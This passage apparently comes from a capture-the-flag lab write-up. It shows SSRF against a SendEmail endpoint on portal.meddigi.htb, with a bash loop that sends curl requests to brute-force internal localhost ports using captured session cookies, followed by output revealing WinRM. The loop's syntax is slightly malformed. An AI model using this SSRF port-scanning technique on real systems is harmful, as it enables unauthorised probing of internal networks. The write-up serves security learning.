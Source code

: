 ![](Images/ssrfwinrm.png)

Unlike a lot of ports that hang on http requests, winrm will always respond with this `404`. This is nice to see, because strangely enough sending requests to port 80 or 443 does not work well.

### Fuzzing internal ports via SSRF
Since we know we are accessing ports internally, we might find a port open only for internal requests. We can fuzz for this. For whatever reason, `ffuf` will not fuzz properly, so I chose to fuzz using a for loop with `curl`:
```bash
for i in {1..65535}; echo $i; do curl -s 'https://portal.meddigi.htb/Prescriptions/SendEmail' -b 'access_token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1bmlxdWVfbmFtZSI6IjkiLCJlbWFpbCI6ImFzZGYxQGFzZGYuYXNkZiIsIm5iZiI6MTY5OTA1MTYzMywiZXhwIjoxNjk5MDU1MjMzLCJpYXQiOjE2OTkwNTE2MzMsImlzcyI6Ik1lZERpZ2kiLCJhdWQiOiJNZWREaWdpVXNlciJ9.j3hHqxHUFtMWtxy52NIeCbaYG-CluoOubN1_kOTJ2YM; .AspNetCore.Antiforgery.d2PTPu5_rLA=CfDJ8CrSHtzBF1JNhsF1CyVvUorTLizskLt_8YolzUh3Z-GepR2ZGiTyxSHB4G4ksqt6mFe3ajKZtH5kaY75bmGRptGuDdZqAGUaB6B-N0vKM8s-b6gBw9RcZJRuwqCSP-gjpKwsNqgEflJpT4_DBTPmm_k' -d "Email=asdf@asdf.asdf&Link=http://127.0.0.1:$i" -k; done
```
The method is ridiculously slow, but it does get the job done.
```
<...SNIP...>
5984
5985
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN""http://www.w3.org/TR/html4/strict.dtd">
<HTML><HEAD><TITLE>Not Found</TITLE>
<META HTTP-EQUIV="Content-Type" Content="text/html; charset=us-ascii"></HEAD>
<BODY><h2>Not Found</h2>
<hr><p>HTTP Error 404. The requested resource is not found.</p>
</BODY></HTML>
<...SNIP...>
8078
```